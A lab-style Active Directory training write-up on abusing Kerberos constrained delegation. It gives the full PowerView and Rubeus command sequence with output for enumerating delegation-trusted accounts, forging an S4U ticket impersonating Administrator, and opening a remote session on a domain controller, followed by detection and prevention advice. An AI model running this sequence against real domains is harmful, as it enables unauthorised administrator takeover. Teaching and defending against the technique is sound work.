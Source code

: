 # windows_attack_defense
### Kerberos Constrained Delegation Attack
Kerberos Delegation enables an application to access resources hosted on a different server; for example, instead of giving the service account running the web server access to the database directly, we can allow the account to be delegated to the SQL server service. Once a user logs into the website, the web server service account will request access to the SQL server service on behalf of that user, allowing the user to get access to the content in the database that they’ve been provisioned to without having to assign any access to the web server service account itself.

We can configure three types of delegations in Active Directory:

- Unconstrained Delegation (most permissive/broad)
- Constrained Delegation
- Resource-based Delegation
- Knowing and understanding that any type of delegation is a possible security risk is paramount, and we should avoid it unless necessary.

As the name suggests, unconstrained delegation is the most permissive, allowing an account to delegate to any service. In constrained delegation, a user account will have its properties configured to specify which service(s) they can delegate. For resource-based delegation, the configuration is within the computer object to whom delegation occurs. In that case, the computer is configured as I trust only this/these accounts. It is rare to see Resource-based delegation configured by an Administrator in production environments ( threat agents often abuse it to compromise devices). However, Unconstrained and Constrained delegations are commonly encountered in production environments.

**Attack**

We will only showcase the abuse of constrained delegation; when an account is trusted for delegation, the account sends a request to the KDC stating, "Give me a Kerberos ticket for user YYYY because I am trusted to delegate this user to service ZZZZ", and a Kerberos ticket is generated for user YYYY (without supplying the password of user YYYY). It is also possible to delegate to another service, even if not configured in the user properties. For example, if we are trusted to delegate for LDAP, we can perform protocol transition and be entrusted to any other service such as CIFS or HTTP.

To demonstrate the attack, we assume that the user web_service is trusted for delegation and has been compromised. The password of this account is Slavi123. To begin, we will use the Get-NetUser function from PowerView to enumerate user accounts that are trusted for constrained delegation in the domain:

```
PS C:\Users\bob\Downloads> Get-NetUser -TrustedToAuth

logoncount                    : 23
badpasswordtime               : 12/31/1601 4:00:00 PM
distinguishedname             : CN=web service,CN=Users,DC=eagle,DC=local
objectclass                   : {top, person, organizationalPerson, user}
displayname                   : web service
lastlogontimestamp            : 10/13/2022 2:12:22 PM
userprincipalname             : webservice@eagle.local
name                          : web service
objectsid                     : S-1-5-21-1518138621-4282902758-752445584-2110
samaccountname                : webservice
codepage                      : 0
samaccounttype                : USER_OBJECT
accountexpires                : NEVER
countrycode                   : 0
whenchanged                   : 10/13/2022 9:53:09 PM
instancetype                  : 4
usncreated                    : 135866
objectguid                    : b89f0cea-4c1a-4e92-ac42-f70b5ec432ff
lastlogoff                    : 1/1/1600 12:00:00 AM
msds-allowedtodelegateto      : {http/DC1.eagle.local/eagle.local, http/DC1.eagle.local, http/DC1,
                                http/DC1.eagle.local/EAGLE...}
objectcategory                : CN=Person,CN=Schema,CN=Configuration,DC=eagle,DC=local
dscorepropagationdata         : 1/1/1601 12:00:00 AM
serviceprincipalname          : {cvs/dc1.eagle.local, cvs/dc1}
givenname                     : web service
lastlogon                     : 10/14/2022 2:31:39 PM
badpwdcount                   : 0
cn                            : web service
useraccountcontrol            : NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD, TRUSTED_TO_AUTH_FOR_DELEGATION
whencreated                   : 10/13/2022 8:32:35 PM
primarygroupid                : 513
pwdlastset                    : 10/13/2022 10:36:04 PM
msds-supportedencryptiontypes : 0
usnchanged                    : 143463
```
![constrained delegation](./ConsDelegation.png)

We can see that the user web_service is configured for delegating the HTTP service to the Domain Controller DC1. The HTTP service provides the ability to execute PowerShell Remoting. Therefore, any threat actor gaining control over web_service can request a Kerberos ticket for any user in Active Directory and use it to connect to DC1 over PowerShell Remoting.

Before we request a ticket with Rubeus (which expects a password hash instead of cleartext for the /rc4 argument used subsequently), we need to use it to convert the plaintext password Slavi123 into its NTLM hash equivalent:

```
PS C:\Users\bob\Downloads> .\Rubeus.exe hash /password:Slavi123

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.1


[*] Action: Calculate Password Hash(es)

[*] Input password             : Slavi123
[*]       rc4_hmac             : FCDC65703DD2B0BD789977F1F3EEAECF

[!] /user:X and /domain:Y need to be supplied to calculate AES and DES hash types!
```

```
PS C:\Users\bob\Downloads> .\Rubeus.exe s4u /user:webservice /rc4:FCDC65703DD2B0BD789977F1F3EEAECF /domain:eagle.local /impersonateuser:Administrator /msdsspn:"http/dc1" /dc:dc1.eagle.local /ptt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.1

[*] Action: S4U

[*] Using rc4_hmac hash: FCDC65703DD2B0BD789977F1F3EEAECF
[*] Building AS-REQ (w/ preauth) for: 'eagle.local\webservice'
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIFiDCCBYSgAwIBBaEDAgEWooIEnjCCBJphggSWMIIEkqADAgEFoQ0bC0VBR0xFLkxPQ0FMoiAwHqAD
      AgECoRcwFRsGa3JidGd0GwtlYWdsZS5sb2NhbKOCBFgwggRUoAMCARKhAwIBAqKCBEYEggRCI1ghAg72
      moqMS1skuua6aCpknKibZJ6VEsXfyTZgO5IKRDnYHnTJT6hwywSoXpcxbFDDlakB56re10E6f6H9u5Aq
	  ...
	  ...
	  ...
[+] Ticket successfully imported!
```
To confirm that Rubeus injected the ticket in the current session, we can use the klist command:
```
PS C:\Users\bob\Downloads> klist

Current LogonId is 0:0x88721

Cached Tickets: (1)

#0>     Client: Administrator @ EAGLE.LOCAL
        Server: http/dc1 @ EAGLE.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a50000 -> forwardable renewable pre_authent ok_as_delegate name_canonicalize
        Start Time: 10/13/2022 14:56:07 (local)
        End Time:   10/14/2022 0:56:07 (local)
        Renew Time: 10/20/2022 14:56:07 (local)
        Session Key Type: AES-128-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called:
```
With the ticket being available, we can connect to the Domain Controller impersonating the account Administrator.
```
PS C:\Users\bob\Downloads> Enter-PSSession dc1
[dc1]: PS C:\Users\Administrator\Documents> hostname
DC1
[dc1]: PS C:\Users\Administrator\Documents> whoami
eagle\administrator
[dc1]: PS C:\Users\Administrator\Documents>
```
**Note:** If the last step fails (we may need to do klist purge, obtain new tickets, and try again by rebooting the machine). We can also request tickets for multiple services with the /altservice argument, such as LDAP, CFIS, time, and host.

### Kerberos Constrained Delegation Detection
Correlating users' behavior is the best technique to detect constrained delegation abuse. Suppose we know the location and time a user regularly uses to log in. In that case, it will be easy to alert on other (suspicious) behaviors—for example, consider the account 'Administrator' in the attack described above. If a mature organization uses Privileged Access Workstations (PAWs), they should be alert to any privileged users not authenticating from those machines, proactively monitoring events with the ID 4624 (successful logon).

In some occasions, a successful logon attempt with a delegated ticket will contain information about the ticket's issuer under the Transited Services attribute in the events log. This attribute is normally populated if the logon resulted from an S4U (Service For User) logon process.

S4U is a Microsoft extension to the Kerberos protocol that allows an application service to obtain a Kerberos service ticket on behalf of a user; if we recall from the attack flow when utilizing Rubeus, we specified this S4U extension. Here is an example logon event by using the web service to generate a ticket for the user Administrator, which then was used to connect to the Domain Controller (precisely as the attack path above):

![detecting constrained delegation attack](./detect1.png)

### Kerberos Constrained Delegation Prevention
Fortunately, when designing Kerberos Delegation, Microsoft implemented several protection mechanisms; however, it did not enable them by default to any user account. There are two direct ways to prevent a ticket from being issued for a user via delegation:

- Configure the property *Account is sensitive and cannot be delegated* for all privileged users.
- Add privileged users to the *Protected Users* group: this membership automatically applies the protection mentioned above (however, it is not recommended to use *Protected Users* without first understanding its potential implications).

We should treat any account configured for delegation as extremely privileged, regardless of its actual privileges (such as being only a Domain user). Cryptographically secure passwords are a must, as we don't want Kerberoasting giving threat agents an account with delegation privileges.
